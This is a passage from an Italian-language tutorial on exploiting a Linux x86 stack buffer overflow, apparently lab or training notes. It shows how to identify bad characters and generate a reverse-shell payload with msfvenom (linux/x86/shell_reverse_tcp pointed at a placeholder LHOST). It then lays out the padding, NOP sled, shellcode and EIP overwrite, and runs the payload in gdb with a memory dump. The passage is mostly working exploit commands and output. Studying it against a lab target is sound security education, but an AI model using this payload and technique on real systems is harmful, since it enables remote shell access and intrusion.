continuiamo questa operazione fino a trovare tutti i caratteri che saltano e di volta in volta aggiorniamo la dimensione del buffer e riproviamo rimuovendo il byte che da fastidio.

Prendiamo nota dei caratteri eliminati perche' servirano nella fase sucessiva di generazione della shellcode. In questo caso sono `\x00\x09\x0a\x20`

## Generazione del shellcode

Abbiamo già conosciuto lo strumento `msfvenom` con il quale abbiamo generato la lunghezza approssimativa del nostro shellcode. Ora possiamo utilizzare nuovamente questo strumento per generare lo shellcode vero e proprio, che fa eseguire alla CPU del nostro sistema di destinazione il comando desiderato.

Ma prima di generare il nostro shellcode, dobbiamo assicurarci che i singoli componenti e le proprietà corrispondano al sistema di destinazione. Pertanto, dobbiamo prestare attenzione alle seguenti aree:

- Architettura
- Piattaforma
- Bad Characters

```shell
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode
```

Aggiorniamo i conti con la dimensione di questo payload

```shell
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817

     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4
```

```shell
# usiamo lo shellcode generato
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
# Next, we check if the first bytes of our shellcode match the bytes after the NOPS.
(gdb) x/2000xb $esp+550

0xffffd726:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd72e:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd736:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd73e:     0x90    0x90    0x90    0x90    0x90    0xb8    0x69    0x9d
                                                      # | ---> shellcode
0xffffd746:     0x19    0x43    0xda    0xc3    0xd9    0x74    0x24    0xf4
0xffffd74e:     0x5b    0x33    0xc9    0xb1    0x12    0x31    0x43    0x12
0xffffd756:     0x03    0x43    0x12    0x83    0xaa    0x99    0xfb    0xb6
0xffffd75e:     0x1d    0x79    0x0c    0xdb    0x0e    0x3e    0xa0    0x76

```
